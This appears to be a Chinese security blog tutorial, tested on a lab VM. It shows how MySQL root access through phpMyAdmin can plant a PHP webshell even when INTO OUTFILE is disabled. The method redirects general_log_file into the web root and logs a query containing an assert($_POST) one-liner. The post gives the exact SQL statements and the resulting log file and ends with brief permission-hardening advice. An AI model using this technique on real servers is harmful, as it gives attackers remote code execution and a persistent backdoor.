## 0x00 设想

假设我们拥有MySQL的root权限，登录Web端的phpMyAdmin数据库管理控制台，你有多少种方法去getshell？

本文旨在研究新的方法，如果在INTO OUTFILE禁用的情况下，或许会少很多思路了。

这里的禁用是完全（权限）禁用，而不是拦截行为。

## 0x01 常规方法测试

好了，入正题，我目前拥有一台WIN XP虚拟机，上面的服务如下：

* Apache 2.4.23（此环境与本文实现的攻击关系不大）
* PHP 5.4.45（此环境与本文实现的攻击关系不大）
* phpMyAdmin 4.6.6（此环境与本文实现的攻击关系不大）
* MySQL 5.5.53 - MySQL Community Server (GPL) （5.0以上）
* 绝对路径：`C:\phpStu\WWW\`

目前大部分站点都使用了MySQL 5.0以上的版本

我们先尝试一下使用SQL表达式INTO OUTFILE 去getshell：



可以看到已经被阻止了 ，具体原因我们在这里讲一下：

错误提示

```
#1290 - The MySQL server is running with the --secure-file-priv option so it cannot execute this statement.
```


secure-file-priv这个全局变量是指定文件夹作为导出文件存放的地方，默认情况下，secure-file-priv是一个空值（NULL）。我们现在设置为网站的根目录，再去尝试使用INTO OUTFILE getshell。

但是在我们使用SQL修改的时候，发现这个值是只读的。



经过查阅资料知道，这个值只能通过修改MySQL的配置文件来达到修改的目的。

## 0x02 新姿势测试

这些希望破灭以后我并没有沮丧，我相信这些研究都是有用的，有助于我的思考。

于是把目光转向了MySQL的特性，开始测试MySQL全局变量对MySQL本身的影响。

最后我发现MySQL 5.0+的版本会自动创建日志文件，那么在服务运行的情况下修改全局变量也是可以变动文件位置的，但是必须要对生成日志的目录有可读可写的权限。（Linux环境下可能会比较苛刻，因为站点目录是一个用户，MySQL是另外一个用户，权限管控较为严格，主要取决于权限配置是否得当）

OK，不废话，开始测试~~

首先呢，介绍两个MySQL全局变量（general_log、general_log file）

* general log 指的是日志保存状态，一共有两个值（ON/OFF）ON代表开启 OFF代表关闭。
* general log file 指的是日志的保存路径。


我们先查看一下全局变量 ~



目前是OFF状态，也就是不保存SQL到日志文件中。



这里强调一下保存过程，general_log是保存每一条你执行的SQL到文件中。目前为OFF，所以文件还没有被创建，我们修改为ON尝试让MySQL创建文件：



我们去主机上的目录里看看这个文件是否存在：


贴出文件内容：

```
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
170323 18:08:54	   35 Quit
```

目前是没有什么内容的。我们在控制台随便执行一个SQL：

```
SELECT MD5('admin');
```


贴出新的日志内容：

```sql
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
170323 18:08:54	   35 Quit	
170323 18:12:55	   36 Connect	root@localhost on 
		   36 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   36 Init DB	mysql
		   36 Query	SHOW MASTER LOGS
		   36 Quit	
		   37 Connect	root@localhost on 
		   37 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   37 Quit	
170323 18:13:21	   38 Connect	root@localhost on 
		   38 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   38 Query	SELECT MD5('admin')
		   38 Quit

```
可以清除的发现，日志文件同步保存了我们所有的SQL语句……猥琐的思路从脑海中喷发而出~ 我们要在站点目录下使用MySQL的日志功能创建一个shell.php

首先查看目录中不存在shell.php这个文件：


（确保general_log 的值已经为ON，前面已经设置过了）然后设置general_log_file的值为我们一句话木马的绝对路径：

```sql
SET global general_log_file='C:/phpStu/WWW/shell.php';
```



我们再去看看站点下是否创建了这个文件：





创建成功，并且文件内容中也有日志的初始值。

我们现在写入一句话~ 强调一下，SQL就是SQL，在保存到日志中的时候不会解析转译符号，不知道大家能否理解，我举一个例子：

我们查询：

```
SELECT '<?php assert($_POST[\'admin\']);?>;
```

保存到日志中也会变成

```
SELECT '<?php assert($_POST[\'admin\']);?>';
```
php这边解析的时候就会报错，因此我们采用单引号与双引号公用的方式实现：

```
SELECT '<?php assert($_POST["admin"]);?>';
PS：$_POST中不用引号也可以~
```



我们访问看看~



已经解析php了，我们同样测试一下是否能执行php代码吧 ~



贴出日志内容：

```sql
C:\phpStu\mysql/bin/mysqld.exe, Version: 5.5.53 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
		   44 Quit	
170323 18:27:27	   45 Connect	root@localhost on 
		   45 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   45 Init DB	mysql
		   45 Query	SHOW MASTER LOGS
170323 18:27:28	   45 Quit	
		   46 Connect	root@localhost on 
		   46 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   46 Quit	
170323 18:28:01	   47 Connect	root@localhost on 
		   47 Query	SET NAMES 'utf8' COLLATE 'utf8_general_ci'
		   47 Query	SELECT '<?php assert($_POST["admin"]);?>'
		   47 Quit	
```

## 0x03 总结

在权限把控不严谨的情况下容易出现此类攻击，如果MySQL没有权限在站点根目录下创建文件的话也就不会发生这样的情况了。

修复方案就是权限把控好就可以了 ~
